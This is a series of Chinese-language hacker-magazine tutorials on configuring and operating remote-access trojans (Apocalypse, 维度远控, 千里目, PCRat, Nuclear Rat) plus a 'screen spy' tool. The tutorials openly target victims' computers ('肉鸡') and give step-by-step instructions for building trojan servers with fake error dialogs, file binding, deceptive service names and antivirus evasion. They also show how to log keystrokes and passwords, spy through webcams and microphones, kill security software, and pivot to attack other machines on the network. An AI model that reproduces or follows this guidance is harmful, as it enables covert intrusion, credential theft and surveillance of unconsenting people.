老规矩，我们还是先来配置一个木马的服务端程序。点击客户端程序中的“Builder”，在这里就可以进行服务端程序的各项内容设置。首先选择其中的“Icon Settings”，我们可以为服务端程序设置一个图标，在图标列表中选择喜欢的图标，单击右键选择“Save AS”将其保存为图标文件，再点击窗口左侧的“Select Icon”按钮，在弹出的窗口中选择刚才保存的图标文件，如图1。不过根据我的测试，发现这个木马提取出来的图标文件失真的非常严重。

接下来点击“Basic Settings”（基本设置），在这儿可以设置服务端程序的连接信息等，比如在“Server ID”和“Password”选项中，设置服务端程序的上线标识和连接密码，再在“Connections”下面的输入框中，输入服务端程序的连接地址，可以使用 IP 地址，也可以使用动态域名，完成后点击 Add 按钮就可以添加到列表中了，如图2。

点击窗口中的“Message Box”，在这里可以设置一个服务端程序运行时的错误信息。比如选中“Show Fake Error Message On Installation”后，在窗口左侧的图标列表中选择要显示的图标选项，再在“Available Buttons”选项中设置提示窗口的相关按钮，然后在“Title”和“Text”选项中分别设置提示窗口的标题和内容就行了。

现在我们选择 Builder 中的“File Binder”选项，在这里可以将服务端程序和其它文件进行捆绑。选择窗口中的“Bind server with a file”后，再点击“Select File”按钮，在弹出的窗口中选择要捆绑的文件，然后点击“Add List”按钮将这个文件添加到捆绑列表中就可以了，如图3。

接下来我们再来看窗口中的“Installation”选项，在这里可以更加详细地设置服务端的信息。首先在“Process Mutex”选项中设置和服务端互相排斥的信息，这样就可以让其他用户的服务端无法运行，接着选择“Startup Disable Safe Mode”选项，这样可以使服务端程序随系统启动而自动运行。通过窗口中的“ActiveX Guid”选项，我们可以知道服务端是利用 ActiveX 插件进行启动的，如图4。最后我们点击窗口中的“Build Server”，在“File Name”中设置服务端程序的保存地址，通过“File Ext”列表可以选择服务端程序的后缀名称。所有配置完毕后，点击“Build Server”按钮就可以创建服务端程序了。

## 二、服务端控制操作

我们在虚拟机里双击运行生成的服务端程序，很快就可以看到服务端程序连接成功的提示框，同时在客户端程序的上线列表中也可以看到服务端的信息。勾选上这个服务端信息后，通过客户端操控界面左侧的命令就可以进行相应的控制了，如图5。

### 1、基本信息了解

首先选择“Information”选项中的控制命令，通过它们可以对远程系统的基本信息有所了解。鼠标双击“PC Information”选项，在弹出的窗口中点击右键，选择菜单中的刷新命令，就可以马上获取远程计算机的大量内容信息，包括系统版本、服务端所在国家、系统命令等，另外还可以检测系统中的杀毒软件和防火墙，如图6。

双击运行“Server Information”，在弹出的窗口中可以对服务端信息进行重新设置，比如服务端程序的显示信息、服务端连接密码以及服务端程序连接的 IP 地址等。接下来再双击打开“Installed Applications”选项，在弹出的窗口中可以看到远程系统安装的应用程序，如图7，通过右键菜单中的卸载命令，就可以将不需要的软件进行删除了。最后双击打开“Active Ports”选项，在弹出的窗口中可以看到远程系统的网络连接信息。

### 2、主要控制操作

选择窗口左侧的“Accessories”选项，这里面包括了远程控制的一些常见控制功能。双击打开列表中的“Remote Desktop”命令，我们就可以对远程计算机的桌面进行查看，点击窗口工具栏中的“Start”命令就可以开始捕捉屏幕了。如果大家觉得屏幕效果不好，还可以点击工具栏中的第三个按钮进行调整，如图8。点击工具栏中的第四个按钮，就可以通过捕捉的屏幕对远程计算机进行控制操作，就好像在自己的电脑桌面上进行操作一样方便。如果我们选择了“Save Picture”选项，木马就会自动对捕捉的屏幕进行保存。

双击打开列表中的“Webcam Capture”命令，可以通过远程计算机中的摄像设备对图形进行捕捉，目前这种通过视频设备进行图像捕捉的方式在木马中已经越来越流行了。点击工具栏中的“Get Webcams”命令，就可以查看远程计算机中是否安装有视频设备，如果有的话就可以通过视频列表来进行选择操作。接下来同样点击工具栏中的“Start”命令，就可以获得视频图像信息。由于其它操作和远程屏幕控制一样，这里就不再进行相应的介绍和描述了。通过左侧列表中的“Audio Capture”命令，我们还可以对远程计算机的音频进行捕捉，并且可以设置声音的频率和效果，如图9。

“Keylogger”就是木马常见的键盘记录器了，使用它我们就可以获得远程用户的键盘记录情况，这个木马包括了在线记录和离线记录两种方式。双击打开“Online Keylogger”的控制窗口，选择右键菜单中的“Active”命令，这样就可以激活键盘记录的操作命令。由于这是一款国外的木马程序，所以只能够记录英文的相关信息。通过右键菜单中的“Save To File”和“Clear Log”命令，就可以对服务端程序记录的内容进行保存或清除操作，如图10。另外选择左侧窗口中的“Offline Keylogger”，就可以对远程计算机在脱机状态下的键盘记录进行查看和清除了，不过前提是在配置服务端程序的时候，需要将离线记录的选项选中才可以。

### 3、远程信息交流

双击打开左侧功能列表中的“Communication”，就可以向远程计算机系统发送各种文字信息了。双击打开“Chat with Server”的命令窗口，在“User's Nick Name”和“Server's Nick Name”中分别输入自己的昵称和对方的昵称，接着点击“Start Chat”按钮就可以与被控端电脑前的用户进行聊天。我们只需要在文字窗口输入相应的内容，然后点击“Send Messages”按钮就可以了，如图11。这个木马除了可以和远程服务端用户进行聊天外，通过“Send Message”命令还可以直接向远程系统的桌面发送信息，我们只需要设置信息的提示图标、信息内容和标题就可以发送了。

### 4、系统管理操作

接下来打开左侧列表中的“Managers”，其中包括了很多系统管理命令。首先选择其中的“File Manager”命令，在弹出的窗口中就可以对远程计算机中的文件进行相应管理了。我们可以通过在文件列表中进行选择，也可以在地址栏输入想要查看的文件目录，通过右键菜单中的命令，就可以进行传输、删除、运行等文件操作了，如图12。选择左侧窗口中的“File Search”，在窗口中输入想要搜索的文件目录和文件名称，就可以查找到相应的文件信息等内容。还需要说明的是，这个木马只可以查找英文信息，不可以对中文信息内容进行搜索查找。

打开左侧列表中的“Registry Editor”命令，可以对远程计算机中的注册表进行管理。由于注册表管理窗口和系统的注册表编辑器界面相似，因此在窗口左侧选取需要管理的注册表主键后，再依次找到需要查找的内容，就可以进行新建、修改、删除之类的操作了。而通过左侧列表中“Clipboard Manager”下的命令，还可以查看到远程电脑当前剪贴板中的内容。如果剪贴板中是文本信息，就可以立即看到文本信息的内容；如果剪贴板中是一个文件的话，就可以在列表中显示出文件的名称等，而且还可以将剪贴板中的文件下载到本地，这个功能我在以前的木马中还没有见到过，如图13。

我们再打开列表中的“Startup Manager”命令，就可以快速地对注册表中的启动项进行查看。这个启动项管理窗口和注册表管理窗口非常相似，在左侧列表中选择要查看的 Run 选项后，在右侧窗口中就可以看到其中所有的启动项内容，如图14。通过右键菜单中的命令，可以对这些启动项进行管理，而在窗口下方还可以添加全新的启动项内容。打开列表中的“Service Manager”命令，就可以针对 NT 内核系统的服务内容进行管理操作了，我们通过右键菜单中的命令就可以对这些服务项进行开始、停止、暂停等操作，而且通过窗口下方的区域，还可以创建新的服务和修改已有的服务。

通过“Process Manager”命令可以对远程计算机系统当前的进程进行管理，通过右键菜单中的命令，不仅可以结束指定的进程信息，还可以在结束的时候删除进程文件，这个命令用于对付杀毒软件非常有用，如图15。除此之外，还可以暂停某些指定的进程，让它们短时间内失去作用。选择某个进程后选择菜单中的“Modules”，在窗口中就可以看到该进程对应的模块信息了。而通过“Windows Manager”命令，可以对远程计算机中当前的窗口进行管理，我们不但可以对这些窗口进行最大化、最小化、隐藏、关闭等操作，还可以对选中窗口的标题栏进行更改，并且能通过键盘发送大量的信息内容到指定的窗口中。

好了，关于该木马的使用就为大家介绍到这儿。这款木马的服务端非常小，只有 100K。至于其它的一些小功能和小体验，就留给大家慢慢去体会吧，相信大家一定会喜欢上它的！

（文章中涉及到的 Apocalypse 1.4.4，已经收录在了光盘中）

# 维度远控

# 我们一起远程分享

现在的远程控制软件层出不穷，而且一些有实力的黑客网站也都推出了自己的远控软件，这可乐坏了我等小菜。前两天没事在黑客动画吧主站上溜达，就发现了一款名为“维度远控”的软件，下载回来后试用了一下，感觉非常不错，就拿来与大家共同分享！

## 一、配置服务端程序

我们首先运行维度远控的客户端程序，可以看到它的界面和其它的远程控制程序都差不多。我们先来配置一个服务端程序，直接点击上方工具栏中的“服务端设置”图标，配置界面就弹出来了。在弹出的配置窗口中主要分为“基本信息”与“功能设置”两大项，如图1。

在“基本信息”中设置服务端的连接方式以及启动方式，启动方式可以选择“注入 IE 进程”或“注册系统服务”以及“是否加 UPX 壳”。维度远控目前支持 FTP 上线、动态域名上线和静态 IP 上线。接着我们进入“功能设置”，设置注入的进程名、安装路径、服务描述和安装选项等信息，大家可以根据自己的具体情况来选择是否自动删除、后台运行、跨越防火墙、强行注入等，如图2。

在“基本信息”设置中，我们还可以设置服务端的连接端口和连接密码，以及提示信息等。所有配置完成后，可以直接点击“基本信息”中的“测试连接”按钮来检测一下自己的设置情况，如图3。最后直接点击“生成客户端”，就可以生成服务端文件了。

## 二、服务端控制

直接在本机电脑中双击运行服务端程序，很快就可以看到服务端连接成功了。在服务器列表中可以看到上线服务端的基本信息，如图4。勾选上主机后，再点击工具栏中的“管理主机”，就可以打开具体的控制界面了，如图5。

点击控制中心中的“屏幕监控”命令，就可以对远程系统的桌面进行实时监控了。维度远控默认的查看效果并不是太好，如果选择工具中的画质调整为 16bit，这时画面效果就会比默认的好看许多了。

点击控制中心中的“文件管理”命令，这样就可以方便地在窗口中进行远程文件管理了。先在“当前目录”中填入想要查看的盘符，然后点击“刷新”，选中想要操作的文件或目录后，就可以通过右键菜单中的控制命令，进行刷新、下载文件、上传文件、删除文件等操作了，如图6。

点击控制中心中的“进程管理”按钮，就可以查看到远程系统中的进程信息了，但其中并没有包括服务端进行植入的那个进程，由此可以看出，维度远控隐藏了自己的进程，如图7。选中某个进程后，通过右键菜单中的“终止进程”按钮就可以终止特定进程了！

点击控制中心中的“系统服务状态”按钮，然后刷新，就可以获得远程系统中的服务信息。通过右键菜单中的命令，就可以对选中的服务进行启动、停止、删除等操作。我们再来看控制中心中的“DOS 执行”，点击后就显示出了系统命令提示符，我们在“DOS 命令”框中输入相应的命令后回车，在窗口中就可以看到返回的信息了，如图8。至于“键盘记录”和“屏幕监控”等功能在试用版中无法使用，不过相信和其它远程控制程序的使用也都没什么区别的。

## 三、总结

总的来讲，维度远控的基本功能还可以，但目前只支持三种上线方式。另外我测试的是试用版，在隐蔽性上做得还不够，但它的稳定性还是可以的。

（文章中涉及到的维度远程控制程序，已经收录在了光盘中）

# “千里目”木马远控

> 踏雪无痕

对于接触黑客技术不久的小菜来说，最喜爱的就是木马程序了。但可惜的是，虽然新木马层出不穷，免杀技术也日益增强，但是面对同样更新频繁的杀毒软件，仍然是刚一露面就被查杀了。要是这些木马生成的客户端程序不被杀毒软件认定为病毒，那该多好啊！今天我就给大家介绍一款不被杀毒软件查杀的远程控制程序——千里目远程监控系统。

## 一、配置客户端

我们都知道，上兴、灰鸽子等老牌木马程序不需要安装（注：指的是客户端程序）就可以使用，它们的服务端程序是由客户端生成的，但千里目远程监控系统却需要安装才能使用。我们首先从网上下载最新的2.1版进行安装，安装过程非常简单，按照提示一步步操作就行了。

安装完成后运行程序，可以看到木马的主要功能都集成到了工具栏中。下面就来进行客户端的配置：点击工具栏中的“配置客户端”按钮，就弹出了“配置客户端”对话框，如图1。如果我们有固定IP地址的话，直接在“填IP”栏中填入静态IP地址就行了。不过，绝大多数个人用户都是使用ADSL方式上网的，IP地址经常变化，因此最好是在“填域名”栏中输入申请好的花生壳动态域名。在“填端口号”栏中设置好客户端程序的连接端口，当然也可以使用默认端口。

配置完成后，点击左下角的“生成客户端”按钮就行了。生成的客户端程序（其实也就是我们常说的服务端程序）默认保存在主程序路径中，如图2。我使用杀毒软件对它进行病毒查杀，提示扫描没有发现病毒。

图1  
图2

## 二、客户端控制操作

在远程电脑中运行刚才生成的客户端程序，可能会有“源代码损坏”的提示出现，很快远程主机就上线了。通过上线列表我们可以清楚地知道远程主机的信息，包括IP地址、系统名称、操作系统、CPU信息等。我们通过工具栏中的功能按钮就可以进行远程操作了，如图3。

图3

### 1、文件管理

点击工具栏中的“磁盘文件”，在“远程磁盘”右边的下拉列表中选择磁盘D，如图4，这样远程主机D盘中所有文件便会显示出来了。千里目远程监控系统的文件管理窗口分为“磁盘根目录”“下一级目录”“再下一级目录”共三级，非常方便文件查看，如图5。使用鼠标右键点击任何一级目录中的文件，就可以显示出该文件的大小、修改日期等相关信息，如图6。如果要将文件下载到本机，只需要选中该文件，点击“下载文件”按钮即可。

图4  
图5  
图6

### 2、进程操作

点击工具栏中的“进程操作”，远程主机当前所有正在运行的进程就都会显示出来了，其中那个“qlimu.exe”就是千里目远程监控系统的进程。选中任何一个进程后，点击上方的“终止”按钮就可以将该进程结束了，如图7。

图7

### 3、DOS命令操作

一般木马程序都会带有终端命令，千里目远程监控系统自然也不例外。点击工具栏中的“DOS命令”，在窗口最下方的“命令”栏中输入想要执行的系统命令，比如输入“net user”，点击右边的“发送”按钮，远程主机的所有用户列表就可以看到了，如图8。我们还可以向系统中添加或删除用户，或进行其他命令操作。

图8

### 4、上传文件

点击“上传文件”切换到上传文件界面，首先选择想要上传的本地文件：点击“浏览本地文件”按钮，在随后打开的对话框中选择文件，然后在下面的空白栏中输入要保存到远程主机的目标地址。需要注意的是，扩展名要和所上传文件的扩展名一致。点击“上传”按钮，稍后便会出现上传成功的提示，如图9。

图9

### 5、监控屏幕

我们先选中想要监控屏幕的远程主机，然后点击主界面“配置客户端”右边的“监控屏幕”按钮。在弹出的“图像获取”窗口中，远程用户的屏幕操作信息就都尽收眼底。通过不断点击“刷新屏幕”按钮，程序就会连续不断地捕获对方的屏幕信息，速度很快。如果是注册版本的话，不但图像清晰，还可以显示动态图，并且还可以对对方的屏幕进行远程操作，如图10。

图10

### 6、其他功能

除了常见的文件管理等功能外，千里目远程监控系统还能对远程主机进行重启、关机和定时关机等操作。

## 三、小结

通过以上试用，我感觉千里目远程监控系统与一般木马区别较大。“千里目”对于客户端程序的配置非常简单，在配置客户端时连最流行的线程插入技术也没有使用，而且客户端程序在运行后也没有删除安装文件，没有隐藏进程，反而是赤裸裸地暴露在进程中。稍有经验的用户一检查进程信息就可以轻易发现它，并可以轻易结束该进程，这也许就是不被杀毒软件查杀的原因吧！

由于客户端程序不被杀毒软件查杀，因此就不必再进行加花、加壳等免杀处理。这使得我们这些对免杀技术不熟悉的小菜有了更好的选择。尽管在常见功能上表现一般，免费版甚至连下载文件、远程视频、键盘记录、发送信息等最基本功能都没有，不过对于小菜们来说，仍然可以满足日常控制操作，相信它一定会受到很多小菜的青睐。

> （文章中涉及到的千里目远程监控系统V2.1版，已经收录在了光盘中）

# 功能强悍的PCRat企业远程管理软件

终极坠落

今天我要给大家介绍一款远程控制程序，它就是PCRat企业远程管理软件（以下简称PCRat）。相信大家在看完本文后，一定会有一种耳目一新的感觉！

首先我们双击打开PCRat的客户端程序，会看到它的主界面非常简洁和漂亮，如图1。PCRat有5种默认皮肤可供大家选择使用；官方还提供了更多扩展皮肤供用户下载使用，选择“设置”里面的皮肤管理就可以自由选择，还支持Vista特有的Aero特效哟！

图1

下面我们来看一下PCRat的具体功能吧。首先点击“配置服务端”图标打开配置选项，可以选择IP/DNS上线方式和HTTP上线方式。我因为没有自己的空间，所以选择了DNS上线方式，在“上线IP/DNS”栏中填写上自己申请的动态域名，后面的“端口”可以自己设置，我设置的是2009。填好后我们可以点击“测试”按钮来看看是否能正常连接。

下面就是HTTP上线方式了，有空间的朋友也可以选择这种方式，只要在“Http上线”栏中把域名改成自己的空间地址就行了。接下来再看“安装设置”，一共有三种安装方式：

- 第一种是“新建服务”，意思就是新建一个服务项，“服务名称”一定要起一个比较迷惑性的描述，比如“Microsoft Device Manager”，“服务描述”也应该如此，比如“监测和监视新硬件设备并自动更新设备驱动”。
- 第二种是“替换服务”，它的优点是不易被察觉。
- 第三种是“ActiveX”，它的兼容性最好，支持Windows 7和Vista系统，推荐大家选择“ActiveX”的安装方式。

最后就是“其他选项”了，我们可以根据自己的情况来进行选择，如图2。全部设置完毕后，点击左下角的“生成服务端”按钮就可以了。

图2

我在自己的虚拟机里双击运行了生成的服务端程序，马上在客户端里就有主机上线了，如图3。点击“系统信息”图标，我们就可以查看到远程主机的各种信息了，还可以看到远程主机CPU和内存的使用率以及硬盘情况，这可是很多远程控制软件里没有的。另一个亮点就是可以查看到远程主机里安装的是什么杀毒软件和防火墙！厉害吧！还可以查看到服务端程序是插入到哪个进程中的以及上线方式等，一目了然，如图4。

图3  
图4

接下来就是“文件管理”功能了，如图5。左边窗口显示的是本地电脑中的目录信息，而右边窗口显示的则是远程电脑的目录信息。我们可以非常方便地上传和下载各种资料文件。

图5

“桌面协助”功能使用了隔行扫描算法，速度很快。我们可以在远程主机中进行系统维护、安装软件、处理计算机中的一些问题，或者向被协助者演示某些操作。点击“功能”后我们可以看到有很多选项，可以根据自己的需要进行选择；而“质量”就是看到的远程主机桌面的质量，一般选择中等就可以，主要还是根据自己的网速来选择，如图6。

“远程终端”可以方便我们在远程主机上建立自己的账号或执行其他系统命令，我想这个功能就不用我多说了吧！“键盘监控”功能可以记录所有中英文键盘按键，用户名、密码、聊天记录等均可以监控，而且PCRat还支持离线记录，这可是很体贴的设计啊，如图7。

图6  
图7

“进程管理”功能可以让我们查看到远程主机中当前正在运行的程序，如图8。“窗口管理”可以知道远程主机都打开了哪些窗口，比如远程主机打开了C盘，我们就可以通过“窗口管理”功能查看到，如图9。“注册表管理”功能可以让我们查看和更改远程主机的注册表信息，如图10。

图8  
图9  
图10

“服务管理”可以查看到远程主机当前运行的服务信息，并且还会有服务描述信息，非常方便。我们还可以停止和启动选中的服务，如图11。“音频管理”可以监听到远程主机的语音和音频，还可以把本地语音发送到远程主机上，如图12。“视频监控”可以打开远程主机上的摄像头进行查看，视频无驱支持，使用了MPEG4解码，清晰度大大提高，这也是PCRat的一个亮点，如图13。

图11  
图12  
图13

最后我再来介绍一下和PCRat配套的专杀工具。如果我们误运行了服务端，或者电脑上被别人安装了PCRat服务端程序，想清除的话还是非常麻烦的，这时我们就可以用到专杀工具了。打开专杀工具，如图14，点击“开始检测”，等待一会儿就可以看到结果了，如图15。我们在检测出来的服务端程序上点击右键就会出现确认删除对话框，直接点击“是”就可以卸载了，操作非常简单吧，如图16！

图14  
图15  
图16

> （文章中涉及到的PCRat企业远程管理软件2010 V2.0以及专杀工具，已经收录在了光盘中）

## 独具一格的 Nuclear Rat

如果我们把安全组织称为“父”，把组织内的成员称为“母”的话，那么Nuclear Rat就是第一期杂志中所介绍的远控木马bandook同父异母的兄弟了。它们都是出自同一个国外安全组织NMC，只是作者不同而已。它们两个有着共同的特征却又有着不同的特点，彼此难分高低，难分胜负。因此，我不得不向叉子们介绍一下这款同样来自国外、同样非常独特而又强大的远控程序。

# 骇马记

Nuclear Rat是一款免费且没有功能限制的远控管理软件，它采用Delphi编译而成，可以运行在Windows 2000/XP/Vista等操作系统上。这一次大家再也不用担心那些看不懂的英文了，因为这款远控软件的作者已经为它配备了中文简体语言包，可见中国的国际地位已经得到了该软件作者的认可。下面，就让我们带领叉子们一起去感受一下这款远控木马吧！

Nuclear Rat的当前版本为2.1，解压后直接运行客户端程序Nuclear RAT.exe。如果当前看到的是英文界面，可以选择上方菜单栏中“Language”下的“中文(中国)”，如图1，然后重启一下就可以完全变成中文界面了。

图1

Nuclear Rat的界面与第一期杂志中介绍过的bandook框架界面有些相似，但我们不能因为长相相似就误认为它们的本质和特点是一样的。我们先来配置一个服务端程序，首先点击工具栏中的“创建服务器”，如图2。大家可以看到，它包含了正向和反向两种连接方式。

以往我们接触到的远控木马大多数都是反向连接。可能还有一些别人家的叉子不知道什么叫正向连接和反向连接，那我们就来温习一下，简单介绍正向和反向的区别：正向连接又称为主动连接，就是我们主动去连接肉鸡上开放的端口，但是这种方式有很大的局限性，比如当我们在外网的时候，无法连接到内网的肉鸡。而且目前绝大多数上网用户使用的都是宽带上网（动态IP）以及路由器上网方式，所以我们无法主动连接到肉鸡端口上。这种正向连接方式一般适用于静态IP地址的服务器或处于同一局域网内的电脑。反向连接也就是被动连接，就是肉鸡主动连接到我们开放的端口上，这也是目前最为流行的连接方式。无论肉鸡的IP地址怎么改变，只要我们当初设定的IP地址或DNS不变，那么肉鸡就能够找到我们。

我们选择“反向连接”方式，在第一项“IP通过URL(可选)”中填写我们要反向连接的地址，不过前提是必须要拥有一个支持PHP脚本的空间，而且还需要拥有对文件目录的修改权限，所以这项有一定针对性。假如我们拥有一个支持PHP脚本的空间并且拥有修改权限，那么就可以把软件同目录下的“change.php”以及新建一个“ip.txt”文件一起上传到你的空间目录下，然后就可以在浏览器中直接访问change.php文件，输入我们当前的IP地址和上线端口，把你当前的IP地址和端口更新到ip.txt文件中，如图3。

图2  
图3

勾选上第一项，然后在“IP or DNS for reverse connection”栏中填写我们当前IP地址；“Port Listening on client”为客户端监听端口；“Password needed to change this setting”为修改当前设置的密码，没有密码是修改不了的，默认为“12345”。我们可以在本地打开“change.php”文件进行修改，最后点击“Submit”按钮提交更新信息到刚才上传的ip.txt文件里就行了。如果更新失败，可能就跟你当前目录文件权限有关了，我们可以使用CHMOD命令修改“ip.txt”文件权限为646或777。

由于这部分知识已经涉及Linux系统，也并非今天我们要讨论的内容，所以我就不再详细介绍下去了。叉子们可以上网搜索一下Linux的CHMOD命令以及Linux下的权限设置等相关知识。

如果上面的问题我们都能解决，那么就可以勇敢地在“IP通过URL(可选)”里填上你的空间路径（比如http://www.yourhost.com/ip.txt），并选中下方的“提供的链接(URL)是一个转向服务”了。而如果对上面提到的问题不怎么了解，我们就直接在“连接IP或DNS”中填上我们的动态域名（比如3322.org提供的二级免费域名）或固定IP地址，下面的端口可以自己定义。

切换到“正向连接”中，正向连接可以保持默认选项，不会影响反向连接。我们再来到“安装”选项，“安装文件名称”为木马运行后的名字，可以修改为其他名称，但必须以exe结尾；“DLL名称”可以修改为任意名称，包括后缀也可以自定义。“安装到子文件夹”为木马释放后的路径，默认为Windows目录下。值得一提的是“注入的参数”，该木马可以同时注入到多个进程中以保护自身运行，具体参数我们可以点击旁边的问号来获取相关参数设置，如图4。

我们再切换到“选项”中，“已设置的参数”为客户端标示，用来区分肉鸡，名称可以自定义；“欺骗式服务器”也就是国内远控的自我删除功能，建议勾选，其他可以保持默认不变，如图5。再切换到“消息框”，这个用作木马服务端被运行时的反应，用于欺骗用户，效果如图6所示。

# 驭马记

“IP记录”用作把肉鸡的一些信息记录并保存到指定文本上，需要把木马同目录下的“logger.php”文件上传到支持PHP脚本的空间中。我感觉这个功能实用性并不大，有兴趣的朋友可以深入研究一下，这里就简单略过了。接下来选择“建立”来直接生成木马服务端程序，值得高兴的是，生成的服务端程序仅有255K。最后我们需要做的就是利用X档案上曾经介绍过的各种方法去传马、挂马。

如果我们在配置服务端时改变了上线端口，那么在打开客户端等待肉鸡上线时，就必须把监听端口改为配置服务端时的上线端口才行。具体可以点击工具栏中的“连接管理器”，然后在第一项“反向连接端口”上点右键，选择“编辑值”→“输入”，输入监听上线端口，如图7。然后点击右下角“执行”。除了修改连接端口外，我们还可以修改其他一些选项信息，至于选项状态可以在界面左下方看到。

话还没说完就有一只肉鸡跑来报到了。但在对肉鸡进行控制前，我们必须先在右边肉鸡列表里选择要控制的肉鸡，然后双击激活后才可以进行下一步控制，没有双击是无法进行控制的。先来看看对方桌面，点击客户端上方菜单栏中的“监视”，选择“屏幕”，如图8，点击“截图”后就可以看到对方桌面了。但是这个截屏功能是每点击一次才会显示一张截图，这种方式既好也不好：好的地方是可以降低内存使用率，不易被发现；不好的地方是需要我们手工点击，如图9。

“网络摄像机”是针对有摄像头的用户，可以开启对方电脑上的摄像头进行窥探而不被用户发现，这和国内其他一些远控的摄像头监控功能相似，使用方法与截图功能一样。“击键记录机”也就是我们常说的键盘记录，跟国产PCshare程序的键盘记录功能如出一辙，唯一不同是多出了“获取点击”这个功能，它可以获取用户鼠标所点击的窗口标题，而且还会区分左右键点击，如图10。而“信息”这个功能就是列出目标电脑上的一些具体配置和目前使用状况的信息。

在监视了肉鸡用户的一举一动之后，我们就来操纵控制肉鸡，点击菜单栏中的“控制”，选择“鼠标”，就可以获取到当……前目标电脑中鼠标的坐标位置，并且可以读取出目标鼠标坐标位置上所显示的内容信息了，如图11。“脚本编辑器”是方便我们利用一些脚本代码来对目标电脑进行一些控制设置，支持 VBS 和 BAT 两种类型的脚本，以及“显示”和“隐藏”两种形式的执行，还可以点击“测试”在本地电脑上进行测试效果，如图12。“分辨率”可以修改肉鸡电脑上的显示分辨率，当然我们可以调得相当高或者相当低，当恶作剧玩玩也不错，还可以关闭、打开对方的显示器，叉子们又可以大闹肉鸡桌面了，如图13。

看看目标电脑上还有什么值得我们读取的文件或信息，点击菜单栏中的“管理”，第一个就是“文件管理”，可以任意上传或下载目标电脑中的文件，或对目标电脑上的文件进行删除、修改或运行等操作，如图16。“窗口管理”是对目标电脑当前所打开的窗口进行控制，我们同样可以对所打开的窗口进行最小化、最大化、隐藏、显示、关闭等控制，如图17。“进程管理器”可以对目标电脑当前所运行的程序进程进行查看和控制，同样可以进行删除和结束等操作，还可以查看 DLL 文件的模块，如图18。


“Socks5”可以为目标电脑开启 socks5 代理服务，可以作为跳板使用。“Web 服务”可以把目标电脑变为一个 Web 服务器，进行浏览、下载目标电脑上的文件；当我们无法与目标电脑连接的时候，只要在浏览器的地址栏中输入“http://目标主机IP:端口”就可以浏览目标电脑上的所有文件，这可是一个非常有效的查看、下载目标电脑上文件的功能，如图14。“远程 shell”等同于获得了对方的一个 shell，可以向目标电脑执行任意的系统命令，比如查看目标电脑的信息、添加管理员等，如图15。


控制完目标电脑后，我们再来管理一下目标电脑，或者“注册表管理”可以更改目标电脑上的注册表信息、更改或删除注册表键值，这和国内的远控木马功能是一样的。这些功能的使用方法在以前的 X 档案上都有过详细介绍，所以这里就不过多描述了。“传输管理器”，当我们使用文件管理进行上传文件或下载文件的时候，就可以在传输管理器中查看到上传下载的情况并进行控制。“粘贴板管理器”可以查看目标电脑中的粘贴或复制信息，在空白的面板上点右键选择“读取”，就可以看到用户所复制粘贴的文本信息内容了。


除了上面我们介绍到的这款远控木马的一些主要功能外，在“附加”菜单栏里还有一些值得我们惊喜的功能，比如“关机”，可以关闭、重启、注销目标电脑；“信息框”可以发送一些模拟系统的弹窗消息来干扰用户，如图20。对于“IP 扫描器”，这个功能也是值得我们惊喜的，如果目标电脑属于局域网或是利用路由器上网的，那么“IP 扫描器”就可以对与目标电脑同在一个网段内的其它电脑进行端口扫描，如图21。

如果某些端口可以利用的话，那我们就可以利用文件管理来上传一些系统漏洞溢出程序到目标电脑上，再通过远程 shell 对所在网段内的其它电脑进行溢出攻击。方法总是多样的，有关于入侵的文章大家可以翻翻以前的 X 档案。


至于“网络管理器”，这个在国内的远控木马上比较少见，感觉很独特，这也是我个人比较喜欢的功能之一，它可以查看到目标电脑所在的网络工作组、服务器和网络中其它电脑的共享。


Nuclear Rat 除了拥有强大的功能外，它还有着其它一些远控木马不具备的较为人性化的设置。首先是当我们打开或者使用 Nuclear Rat 的功能进行控制时，不必因为要打开其它功能控制窗口而关闭当前的功能控制窗口，它完全支持众多功能控制窗口的同时存在，如图22。

我们还可以通过快捷键对当前窗口进行关闭或隐藏操作，对当前窗口进行隐藏只需要按“F1”快捷键，关闭当前窗口按“ESC”快捷键。如果隐藏了当前窗口，还可以通过双击左下方“打开窗口”区域中相对应的功能控制窗口来进行恢复。其次，Nuclear Rat 还为我们准备了快捷菜单功能，我们可以在弹出的空白窗口当中添加一些比较常用到的控制功能，非常人性化，如图23。

至此，Nuclear Rat 就被我简单地为叉子们介绍了一番。限于篇幅，没有向各位叉子完完全全地展示这款远控程序所有的功能和独特的魅力，剩下的一些功能还值得叉子们亲自去发掘和研究，这样才会有益于技术上的进步和提高。

（文章中涉及到的 Nuclear Rat 2.1 已经收录在了光盘中）

# 木马的“咖啡伴侣”

### —— 屏幕间谍

相信喜欢咖啡（这里指饮料，不是指我们的咖啡小编）的小菜们一定喜欢在咖啡里添加咖啡伴侣，那样咖啡才会更好喝。绝大多数小菜都有自己的学业或工作，那么在没有上线时我们怎么才能知道肉鸡做过什么呢？今天，我就给大家带来了一款木马的“咖啡伴侣”——屏幕间谍，其界面如图1所示。


这款程序的功能完全可以在后台运行，这是不是很方便我们的使用呢？这款程序原本是用于帮助企业领导和家长对员工和子女进行系统操作监管，作为小菜的我们完全可以用它来对肉鸡进行离线监控，从而牢牢地绑住肉鸡。

下面我就详细介绍一下这款软件。它可以记录任何程序窗口中的击键记录（包括用户名、密码、邮件和聊天记录等），记录信息包括时间和窗口名等，它还能自动地把 MSN、QQ 以及 Word 等进行分类，如图2。

屏幕间谍还能对浏览过的网页进行记录，包括 IE、腾讯 TT 等浏览器，甚至能够直接进入网站进行查看。我们要是发现肉鸡浏览了杀毒软件的网站，就可以直接把它禁止掉，如图3。


屏幕间谍是一款用来监视本地计算机的软件，它可以记录键盘击键、打开的网址、运行过的程序和聊天记录等。它的特色就在于能定时屏幕截图，而且上面提到的这些功能完全是在后台运行的。


在电脑上运行的所有程序也都会被记录，它的附加功能就是记录程序标题，我们还可以禁止一些软件的使用，比如 QQ、杀毒软件等，如图4。无论重启还是重装系统，只要我们的屏幕间谍还在，肉鸡就无法运行被禁止掉的程序，这招够绝够狠吧！

聊天室记录的截取里面可能包含一些重要的敏感信息，它可以记录包括 QQ、MSN 在内的聊天记录。如果肉鸡用户知道了我们正在使用这样一款程序监视他，他会不会吓得冒汗呢？屏幕间谍真正可怕的是能够把记录下来的信息通过预先设置的 E-Mail 发送到我们的邮箱中，怎么样？彻底无语了吧？


这款程序可以帮助木马做一些无法完成的工作，在肉鸡到手后，我们完全可以把这款强大的辅助程序种植到肉鸡中，这样可以在很大程度上防止肉鸡摆脱控制。

